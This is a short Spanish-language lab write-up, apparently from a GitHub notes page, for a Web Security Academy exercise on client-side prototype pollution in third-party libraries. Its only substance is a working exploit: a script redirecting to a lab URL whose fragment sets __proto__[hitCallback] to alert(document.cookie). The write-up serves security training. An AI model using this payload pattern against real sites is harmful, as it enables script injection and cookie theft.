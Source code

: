 ```yaml
---
layout: default
title: 5 - Client-side prototype pollution in third-party libraries
---
```

Usaremos DOM invader

```html
<script>
window.location='https://0ae300d304e1ebca80aeb26a007a005d.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29'
</script>
```
